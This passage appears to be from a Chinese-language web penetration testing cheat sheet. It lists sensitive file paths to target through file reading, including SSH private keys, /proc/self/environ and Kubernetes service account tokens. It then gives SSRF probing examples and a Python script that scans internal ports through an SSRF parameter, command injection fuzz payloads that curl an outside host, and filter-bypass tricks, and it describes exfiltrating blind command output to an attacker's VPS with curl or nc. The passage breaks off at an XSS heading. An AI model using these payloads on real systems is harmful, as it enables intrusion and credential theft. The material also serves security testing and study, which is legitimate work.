/etc/apache2/httpd.conf
/etc/apache2/vhosts.d/00_default_vhost.conf
/etc/apache2/sites-available/default
/etc/phpmyadmin/config.inc.php
/etc/mysql/my.cnf
/etc/httpd/conf.d/php.conf
/etc/httpd/conf.d/httpd.conf
/etc/httpd/logs/error_log
/etc/httpd/logs/error.log
/etc/httpd/logs/access_log
/etc/httpd/logs/access.log
/home/apache/conf/httpd.conf
/home/apache2/conf/httpd.conf
/var/log/apache/error_log
/var/log/apache/error.log
/var/log/apache/access_log
/var/log/apache/access.log
/var/log/apache2/error_log
/var/log/apache2/error.log
/var/log/apache2/access_log
/var/log/apache2/access.log
/var/www/logs/error_log
/var/www/logs/error.log
/var/www/logs/access_log
/var/www/logs/access.log
/usr/local/apache/logs/error_log
/usr/local/apache/logs/error.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/access.log
/var/log/error_log
/var/log/error.log
/var/log/access_log
/var/log/access.log
/usr/local/apache/logs/access_logaccess_log.old
/usr/local/apache/logs/error_logerror_log.old
/etc/php.ini
/bin/php.ini
/etc/init.d/httpd
/etc/init.d/mysql
/etc/httpd/php.ini
/usr/lib/php.ini
/usr/lib/php/php.ini
/usr/local/etc/php.ini
/usr/local/lib/php.ini
/usr/local/php/lib/php.ini
/usr/local/php4/lib/php.ini
/usr/local/php4/php.ini
/usr/local/php4/lib/php.ini
/usr/local/php5/lib/php.ini
/usr/local/php5/etc/php.ini
/usr/local/php5/php5.ini
/usr/local/apache/conf/php.ini
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache2/conf/php.ini
/etc/php4.4/fcgi/php.ini
/etc/php4/apache/php.ini
/etc/php4/apache2/php.ini
/etc/php5/apache/php.ini
/etc/php5/apache2/php.ini
/etc/php/php.ini
/etc/php/php4/php.ini
/etc/php/apache/php.ini
/etc/php/apache2/php.ini
/web/conf/php.ini
/usr/local/Zend/etc/php.ini
/opt/xampp/etc/php.ini
/var/local/www/conf/php.ini
/var/local/www/conf/httpd.conf
/etc/php/cgi/php.ini
/etc/php4/cgi/php.ini
/etc/php5/cgi/php.ini
/php5/php.ini
/php4/php.ini
/php/php.ini
/PHP/php.ini
/apache/php/php.ini
/xampp/apache/bin/php.ini
/xampp/apache/conf/httpd.conf
/NetServer/bin/stable/apache/php.ini
/home2/bin/stable/apache/php.ini
/home/bin/stable/apache/php.ini
/var/log/mysql/mysql-bin.log
/var/log/mysql.log
/var/log/mysqlderror.log
/var/log/mysql/mysql.log
/var/log/mysql/mysql-slow.log
/var/mysql.log
/var/lib/mysql/my.cnf
/usr/local/mysql/my.cnf
/usr/local/mysql/bin/mysql
/etc/mysql/my.cnf
/etc/my.cnf
/usr/local/cpanel/logs
/usr/local/cpanel/logs/stats_log
/usr/local/cpanel/logs/access_log
/usr/local/cpanel/logs/error_log
/usr/local/cpanel/logs/license_log
/usr/local/cpanel/logs/login_log
/usr/local/cpanel/logs/stats_log 
/usr/local/share/examples/php4/php.ini
/usr/local/share/examples/php/php.ini
/etc/issue
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

### proc

proc目录通常存储着进程动态运行的各种信息，如果要查看当前进程的

```
/proc/self
```

下面的cmdline就可以读出比较敏感的信息，假如用户使用`Mysql -uxx -pxx`登陆，则可以读到

```
/proc/self(或者对应的pid)/cmdline
```

使用`cwd`可以跳转到当前目录

```
/proc/self(或者对应的pid)/cwd
```

环境变量中可能存在secret_key，使用environ读取

```
/proc/self(或者对应的pid)/environ
```


# SSRF

SSRF(Server Side Request Forgery，服务端请求伪造)，SSRF漏洞的成因多是服务端提供了从外部服务获取数据的功能，但没有对目标地址、协议等重要参数进行过滤和限制

比如一个web

```
http://example.com/opeurl.php?url=http://www.baidu.com/1.png
```

此时如果我们访问

```
http://example.com/opeurl.php?url=file://etc/passwd
```

如果没有做限制，那么我们就可以访问到本地敏感文件

## SSRF的寻找和测试

常用的协议有

- file://
- dict://
- gopher://

## SSRF的攻击方式

### 内部服务资产探测

```python
import requests as req
import time
ports = ['80','3306','8080']
session = req.Session()
for i in xrange(255):
    ip = "192.168.1." + str(i)
    for port in ports:
        url = "http://example.com/?url=http://"+ip+port
    	res = session.get(url,timeout=3)
        if len(res.content) > 0:
            print(ip,port,"is open")
print("Done")
```

### 使用Gopher扩展攻击面

- Redis
- Mysql
- PHP-FPM攻击
- 攻击内网中的脆弱应用

自动组装脚本

https://github.com/tarunkant/Gopherus

# 命令执行漏洞

## 命令执行基础

### 转义字符

Windows转义字符为`^`，Linux转义字符为`\`

### 多条命令执行

在命令注入中通常需要执行多条语句来扩大危害

#### Windows

- &&
- ||
- %0a

#### Linux

- &&

- ||

- ；

- $()

- ``

- %0a

- %0d\

  ```
  echo "`ls`"
  echo "$(ls)"
  ```
  
### 注释符号

Windows中为`::`,Linux中为`#`

### 基本测试

建议Fuzzing,需要构造Fuzz列表，比如

```
&& curl www.1.com &&
`curl www.1.com`
;curl www.1.com
```

### 命令执行绕过技巧

#### 过滤空格

进而用`%20`这种url编码绕过，然后可以使用%00-%ff区间的字符串进行测试

##### Windows

```
echo%ProgramFiles:~10,1%
```

在这里`~`做一个截取符，表示取环境变量的值

##### Linux

命令

```
echo aaa
```

绕过方式

```
echo$IFS$9aaa
{echo,aaaa}
cat<>flag
echo${IFS}aaa
```


#### 关键字黑名单

可能会过滤比如cat,curl等关键字

##### 变量拼接

```
a=c;b=at;c=hell;d=o;$a$b ${c}${c}
```

#####   使用通配符

`？`代表任意一个字符串

`*`代表任意个字符串

##### 借用已知字符

若是禁用`<>?`等特殊字符，我们可以使用substr()函数借用已知字符

```
echo `expr substr $(awk NR==1 lemon.php) 1 1`
```

即可输出lemon.php的第一个字符

#### 执行无回显

##### HTTP通道

可以curl自己的vps上的文件，执行结束之后输出到文件，然后nc链接服务器发送信息或者直接http访问

一个平台https://github.com/opensec-cn/vtest

# XSS

## XSS绕过

可以用来执行XSS的标签


